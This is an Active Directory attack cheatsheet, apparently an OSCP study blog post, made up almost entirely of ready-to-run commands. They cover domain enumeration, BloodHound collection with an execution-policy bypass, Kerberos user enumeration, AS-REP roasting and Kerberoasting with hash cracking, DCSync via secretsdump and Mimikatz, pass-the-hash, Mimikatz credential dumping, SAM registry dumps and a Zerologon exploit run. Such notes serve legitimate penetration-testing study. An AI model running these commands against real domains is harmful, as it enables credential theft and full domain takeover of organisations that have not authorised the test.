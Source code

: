 ```yaml
---
title: Active Directory
author: linatl
category: "OSCP"
date: "2021-03-14 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```



###### Basic Domain Enumeration Commands
```
> net user /domain
> net user some_admin /domain
> net group /domain
> net accounts

Powershell:
> [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrent
Domain()
```

###### Bloodhound
```
Bloodhound documentation:
https://bloodhound.readthedocs.io/en/latest/

Installation:
> sudo apt install bloodhound
> sudo pip3 install bloodhound

First, gather the data with an ingestor, either the bloodhound-python script from fox-it or SharpHound.Then import the json files in the neo4j database.
> (sudo) neo4j console
starts on localhost:7687

Example bloodhound-python:
> bloodhound-python -c All -u 'username' -p 'password' -gc "MACHINE.domain.local" -dc "MACHINE.domain.local" -d "domain.local" -ns 10.10.10.10

Example SharpHound
https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors
> Import-module .\SharpHound.ps1
> Invoke-Bloodhound -CollectionMethod All [-d domain.local]
Or at once:
> powershell -exec bypass -command "& { Import-Module SharpHound.ps1; Invoke-Bloodhound -CollectionMethod All; }"
```

###### PowerView
```
> cp /usr/share/windows-resources/powersploit/Recon/PowerView.ps1 ./

> Import-Module .\PowerView.ps1
> Get-NetLoggedon -ComputerName computer1
> Get-NetSession -ComputerName dc01
```

###### Kerberos ~ validating usernames
```
https://github.com/ropnop/kerbrute
./kerbrute userenum --dc 10.10.10.10 -d domain.htb users.txt
```


###### Kerberos ~ AS-REP Roasting
```
From external with Impacket:
> impacket-GetNPUsers domain.local/ -format john -usersfile wordlist -no-pass -dc-ip 10.10.10.10

With Rubeus:
https://pentestbook.six2dez.com/post-exploitation/windows/ad/kerberos-attacks

Password dictionary attack:
> john tgt-file --wordlist=/usr/share/wordlists/rockyou.txt
or:
> hashcat -a 0 -m 18200 tgt-file /usr/share/wordlists/rockyou.txt --force
```

###### Kerberos ~ Kerberoasting
```
From external with Impacket:
> GetUserSPNs.py -request -dc-ip 10.10.10.10 domain.local/username -save -outputfile tgsfile.out

With Rubeus:
https://pentestbook.six2dez.com/post-exploitation/windows/ad/kerberos-attacks


Password dictionary attack:
> hashcat -m 13100 -a 0 tgsfile.out /usr/share/wordlists/rockyou.txt --force
or:
> python3 /usr/share/kerberoast/tgsrepcrack.py wordlist.txt ticketname
```


###### DC-SYNC attack
```
From external with impacket-secretsdump:
> impacket-secretsdump domain/username@10.10.10.10
> impacket-secretsdump domain/username@10.10.10.10 -just-dc
> impacket-secretsdump domain/username:password@10.10.10.10

with Mimikatz:
> Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt"'
> lsadump::dcsync /domain:domain.local /user:Administrator
```


###### Pass The Hash with CrackMapExec
```

```

###### Pass the Hash with PTH
```
> pth-winexe -U username%hAsHPaRt1:hAsHPaRt2 //10.10.10.10 cmd

```

###### Overpass the hash
```
https://pentestbook.six2dez.com/post-exploitation/windows/ad/kerberos-attacks
```

###### Pass the ticket
```
https://pentestbook.six2dez.com/post-exploitation/windows/ad/kerberos-attacks
```


###### Mimikatz ~ Retrieve stored credentials
```
The powershell module:
https://github.com/samratashok/nishang/tree/master/Gather

the EXE variant:
https://github.com/gentilkiwi/mimikatz
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe ./

> .\mimikatz.exe
> privilege::debug
> token::elevate
> log file.out

sekurlsa
> sekurlsa::logonpasswords
> sekurlsa::tickets

kerberos
> kerberos::list

vault
> vault::cred
> vault::list

lsadump
> lsadump::sam
> lsadump::secrets
> lsadump::cache
> token::revert

> sekurlsa::pth /user:some_admin /domain:domain.com /ntlm:hAsHPaRt2 /run:PowerShell.exe
```

###### Retrieve stored credentials (manual)
```
view stored kerberos tickets:
> klist

https://github.com/samratashok/nishang/tree/master/Gather
gather NTLM hashes with nishang script:
> Import-Module .\Get-PassHashes.ps1
> Get-PassHashes
```

###### SAM Hashdump (manual)
```
Dumping SAM hashes from CMD:
https://miloserdov.org/?p=4129

> reg save hklm\sam c:\sam
> reg save hklm\system c:\system

Location:
C:/Windows/System32/config/SAM
C:/Windows/System32/config/SYSTEM
```

###### Zerologon (probably going to break the domain, not recommended..)
```
> searchsploit -m 49871.py
> python3 49871.py -do check -target NETBIOSNAME -ip 10.10.10.10
```
